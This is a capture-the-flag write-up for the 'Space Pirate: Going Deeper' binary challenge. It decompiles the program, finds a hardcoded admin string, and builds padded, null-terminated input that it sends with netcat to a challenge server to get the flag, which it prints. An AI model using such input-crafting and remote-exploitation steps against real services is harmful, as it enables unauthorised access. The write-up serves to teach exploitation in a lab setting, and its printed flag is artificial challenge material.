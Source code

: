 # Space Pirate: Going Deeper

## Solution 
### Decompilation & Disassembly

Firstly, I opened it up in Cutter and Decompiled it

```
undefined8 main(void)
{
	int64_t var_18h;	
	int64_t var_10h;
	int64_t var_8h;
	setup();
	banner();
	puts("\x1b[1;34m");
	admin_panel(1, 2, 3);
	return 0;
}
```

```
// WARNING: Could not reconcile some variable overlaps

void admin_panel(uint32_t arg1, uint32_t arg2, uint32_t arg3)
{
    int32_t iVar1;
    undefined4 in_register_00000014;
    undefined4 in_RSI;
    undefined4 in_RDI;
    uint32_t var_48h;
    uint32_t var_40h;
    uint32_t var_38h;
    char *buf;
    uint32_t var_8h;
    
    _var_8h = 0;
    printf("[*] Safety mechanisms are enabled!\n[*] Values are set to: a = [%x], b = [%ld], c = [%ld].\n[*] If you want to continue, disable the mechanism or login as admin.\n"
           , CONCAT44(in_RDI, arg1), CONCAT44(in_RSI, arg2), CONCAT44(in_register_00000014, arg3));
    while (((_var_8h != 1 && (_var_8h != 2)) && (_var_8h != 3))) {
        printf("\n1. Disable mechanisms ⚙\xfe0f\n2. Login ✅\n3. Exit 🏃\n>> ");
        _var_8h = read_num();
    }
    if (_var_8h == 1) {
        printf("\n[*] Input: ");
    } else {
        if (_var_8h == 2) {
            printf("\n[*] Username: ");
        } else {
            puts("\n[!] Exiting..\n");
            exit(0x1b39);
        }
    }
    read(0, &buf, 0x39); // Read in 57 characters
    // Compare Argument 1, Argument 2 and Argument 3 with respective values. If any don't match, compare buffer
    if (((CONCAT44(in_RDI, arg1) != 0xdeadbeef) || (CONCAT44(in_RSI, arg2) != 0x1337c0de)) ||
       (CONCAT44(in_register_00000014, arg3) != 0x1337beef)) {
        iVar1 = strncmp("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft", &buf, 0x34);
        if (iVar1 != 0) {
            printf("\n%s[-] Authentication failed!\n", "\x1b[1;31m");
            goto code_r0x00400b38;
        }
    }
    printf("\n%s[+] Welcome admin! The secret message is: ", "\x1b[1;32m");
    system("cat flag*");
code_r0x00400b38:
    puts("\n[!] For security reasons, you are logged out..\n");
    return;
}

```

In short, the buffer has to match the string `DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft` to pass the authentication.

### Testing Inputs

I tried running it in edb

![](Pasted%20image%2020220514222503.png)

After setting the read instruction at `0x00400aba` (found using Cutter) as a breakpoint, running the binary and jumping over a few instructions, I find what seems to be the comparison of arguments. But then realised the memory location it is looking at is not accessible by the input buffer. 

![](Pasted%20image%2020220514222609.png)

I tried changing the value on the buffer manually in edb to match the string, which worked, and gave me the cmd prompt.

![](Pasted%20image%2020220514225200.png)

### Making Input Buffer match the string

On running it, I found out that even if the string is put in, it won't match due to the newline. One way is to use `\x00` as the string terminator instead, as `\x00` is not picked up in C strings, unlike `\n`

![](Pasted%20image%2020220514225427.png)

I tried this payload

```
$ (sleep 10; python2 -c 'print "2\nDRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft"') | ./sp_going_deeper 
```

![](Pasted%20image%2020220514230533.png)

Since not the whole string went in, I added more padding right after the 2

```
[hacker@hackerbook evtx2json]$ python
Python 3.10.2 (main, Jan 15 2022, 19:56:27) [GCC 11.1.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> len("tr4t0R0fth15sp4c3cr4ft")
22
>>> len("DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft")
51
>>> 51-22
29
>>> 
```

`0x1f` = **31**

![](Pasted%20image%2020220514231135.png)

![](Pasted%20image%2020220514231449.png)

### Final Server Pwn

```bash
┌──(kali㉿kali)-[~]
└─$ ( python2 -c 'print "2"+" "*29+"\n"+"DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft\x00"'; cat) | nc 139.59.184.63 30944                                 127 ⨯


                  Trying to leak information from the pc.. 🖥


             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   | goldenfang@d12:$ history                    |    |
           |   |     1 ls                                    |    |
           |   |     2 mv secret_pass.txt flag.txt           |    |
           |   |     3 chmod -x missile_launcher.py          |    |
           |   |     4 ls                                    |    |
           |   |     5 history                               |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |                                                                                                     
           |   |                                             |    |                                                                                                     
           |   |                                             |    |                                                                                                     
           |   |                                             |    |                                                                                                     
           |   |_____________________________________________|    |                                                                                                     
           |                                                      |                                                                                                     
            \_____________________________________________________/                                                                                                     
                   \_______________________________________/                                                                                                            
                _______________________________________________                                                                                                         
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_                                                                                                      
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_                                                                                                   
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_                                                                                                
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_                                                                                             
 _-'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_                                                                                          
:-----------------------------------------------------------------------------:                                                                                         
`---._.-----------------------------------------------------------------._.---'                                                                                         
                                                                                                                                                                        
                                                                                                                                                                        
[*] Safety mechanisms are enabled!                                                                                                                                      
[*] Values are set to: a = [1], b = [2], c = [3].                                                                                                                       
[*] If you want to continue, disable the mechanism or login as admin.                                                                                                   
                                                                                                                                                                        
1. Disable mechanisms ⚙                                                                                                                                                 
2. Login ✅                                                                                                                                                             
3. Exit 🏃                                                                                                                                                              
>>                                                                                                                                                                      
[*] Username:                                                                                                                                                           
[+] Welcome admin! The secret message is: HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}                                                                         
[!] For security reasons, you are logged out..                                                                                                                          
                                                                                                                                                                        
                           
```

## Flag

`HTB{n0_n33d_2_ch4ng3_m3ch5_wh3n_u_h4v3_fl0w_r3d1r3ct}`